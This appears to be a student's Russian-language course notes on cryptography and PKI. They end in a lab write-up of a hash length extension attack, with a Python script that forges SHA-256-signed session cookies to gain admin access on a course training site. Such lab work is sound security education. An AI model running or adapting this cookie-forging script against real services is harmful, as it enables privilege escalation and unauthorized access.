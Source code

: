 Обеспечение конфиденциальности в канале связи
## Симметричное шифрование
Наиболоее простой и быстрый, для шифрования и дешифрования используется один и тот же ключ.
Шифр подстановки - сдвиг каждой буквы алфавить на несколько символов, тап z -> a, a -> b, ... - шифр цезаря, шифр перестановки.

Поточные шифры - каждая терация по одному биту, каждый бит с помощью генератора гаммы переводится в зашифрованный вид.
генератор гаммы использует key и init vector.
### MAC и HMAC
Алгоритм проверки целостности.
MAC - общий ключ для отправителя и получателя, и общий алгоритм, проверяет, что сообщение не изменилось. То есть получателю отправляется сообщение и mac код, получатель по mac проверяет не менялось ли сообщение.
HMAC - просто хэшируем передаваемое сообщение, в остальном так же.
## Ассиметричное шифрование
Есть две пары ключей: публичный и приватный.
RSA - алгоритм основанный на факторизации больших чисел. Идея в том, что найти произведение набора простых чисел - просто, а разбить большое число на произведение простых - сложно.
Diffie-Hellman - алгоритм, который позволяет двум стронам создать ключи и использовать симметричное шифрование.
### Алгоритм хэширования паролей
Argon2 - хорошо гастраиваемый memory hard 
### TLS 1.3 (SSL)
Общий секрет DH, ECDH
## PKI 
инфраструктура открытых ключей
Основные составляющиие:
1) Центр сертификации (CA)
2) internidiate CA (чтобы при взломе оснвного CA мы не потеряли все ключи)
3) X.509 сертификат 
Hashingcorp Vault - open sorce решение для построения PKI. Для Windows можно использовать AD CS.

## Аутентификация в сетях
RADIUS - протокол удаленной аунтефикации

## Атака extension
Утилита: https://github.com/iagox86/hash_extender/tree/master
```
616e647265:616e64726579:616e64726579:96e7f9079283c3e1e2011abdbb096147d8109566ecca78b5b37fa8fedd71eca6
```

hex encoded:
```
616e647265 - login
616e64726579 - name
616e64726579 - family
96e7f9079283c3e1e2011abdbb096147d8109566ecca78b5b37fa8fedd71eca6 - digits
```
hex decoded:
```
andre - login
andrey - name
andrey - family
96 e7 f9 07 92 83 c3 e1 e2 01 1a bd bb 09 61 47 d8 10 95 66 ec ca 78 b5 b3 7f a8 fe dd 71 ec a6 - digits
```

1) изменяю andre на admin
2) в family запихиваю прошлый login andre
```
andrey:andre - 616e647265793a616e647265
```

```python
import requests
import base64
import os
import codecs

def read_file_to_array_of_dicts(file_path):
    data_array = []
    try:
        with open(file_path, 'r', encoding='utf-8') as file:
            data = file.read().strip().split("\n\n")  # Split data blocks

            for block in data:
                lines = block.strip().split("\n")
                
                # Clean up the lines and store in dictionary
                entry = {
                    'New signature': lines[2].strip().split(": ")[1],
                    'New string': lines[3].strip().split(": ")[1],
                }
                
                data_array.append(entry)  # Append the entry to the array

        print("Data successfully loaded into an array of dictionaries.")
        return data_array

    except FileNotFoundError:
        print("File not found. Please check the file path.")
    except Exception as e:
        print(f"An error occurred: {e}")

if __name__ == "__main__":
    hexlify = codecs.getencoder('hex')
    
    url = 'http://extender.is-course.ru/'  # Replace with your actual endpoint
    url_register = url + "register"
    # Define the payload with the registration data
    something = "aknsdvkjasndvk"
    data = {
        'login':something,
        'name':something,
        'family':something,
        'password':something,
        'confirm-password':something  # Should match the password
    }

    # Create a session to handle cookies
    session = requests.Session()

    # Send the POST request with the form data
    response = session.post(url_register, data=data)
    
    file_path = 'data.txt'  # Specify your input file path
    data_array = read_file_to_array_of_dicts(file_path)

    
    token = base64.b64decode(session.cookies.get_dict()['session'].encode('utf-8')).decode('utf-8')
    print(token.split(':'))
    os.system(f'../hash_extender/hash_extender --data {something}:{something}:{something} --secret-min=1 --secret-max=200 --append :admin --signature={token.split(":")[3]} --format=sha256 > data.txt ')

    with open("result.txt", 'w', encoding='utf-8') as file:
        for item in data_array:
            item['New string'] = item['New string'].replace("3a", ":", 1)[::-1].replace("a3", ":", 1)[::-1].split(":")
            token = item['New string'][2] + ":" + item['New string'][0] + ":" + item['New string'][1] + ":" +item['New signature']
            base64_bytes = base64.b64encode(token.encode('utf-8'))
            base64_string = base64_bytes.decode('utf-8')
            
            resp = requests.get(url,  headers={"Content-Type":"text/html", "Cookie": f"session={base64_string}"})
            file.write(resp.text)
            if ("admin!" in resp.text):
                print(resp.text)
            else:
                print(f'{base64_string}')         
```